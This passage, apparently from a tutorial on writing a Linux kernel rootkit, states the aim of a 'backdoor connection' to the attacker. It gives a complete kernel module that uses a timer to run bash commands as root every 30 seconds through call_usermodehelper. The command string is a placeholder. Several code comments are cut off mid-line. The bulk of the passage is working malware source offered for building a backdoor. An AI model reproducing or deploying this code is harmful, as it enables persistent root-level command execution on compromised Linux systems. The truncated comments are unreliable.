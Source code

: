 The init_function() and exit_function() functions are used to insert and remove the module.

## But for our rootkit, it should callback us so that we can establish a backdoor connection

for that, we can add a timer to our previously created kernel program like a cronjob does

**firstly let’s create a kernel program that can print a few texts in every fixed time period that we want. We can achieve this task by using <linux/timer.h> header file**

```jsx
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/timer.h>

MODULE_AUTHOR("J3rry");
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Description");

static struct timer_list my_timer;//my_timer is a static variable of type struct timer_list
void command_executer(void){
        char *cmd_array[] = {"/bin/bash", "-c", "cmd1; cmd2; cmd3; cmdn;", NULL};
        char *env_variable[] = { "HOME=/", "TERM=linux", "PATH=/sbin:/usr/sbin:/bin:/usr/bin", NULL };
        call_usermodehelper(cmd_array[0], cmd_array, env_variable, UMH_WAIT_EXEC);
        printk(KERN_INFO "All commands has been executed");
}
void time_callback(struct timer_list *timer){//now we gonna define a callback function that will be called back whe>
        printk(KERN_INFO "hell\n");
				command_executer();
        mod_timer(&my_timer, jiffies + msecs_to_jiffies(30000));//as we know after timer gets over timer_setup call>
                                                                //and that calls the mod_timer() function which ext>
}

static int __init initiate(void){
        printk(KERN_INFO "started\n");
        
        timer_setup(&my_timer, time_callback, 0);//this function initializes the my_timer variable of type struct t>
                                                //it is like we just did the setup to run the timer like the things>
        mod_timer(&my_timer, jiffies + msecs_to_jiffies(30000));//by this function our timer get's started 
        return 0;
}
static void __exit remove(void){
        del_timer(&my_timer);
        printk(KERN_INFO "bye bye");
}

module_init(initiate);
module_exit(remove);
```
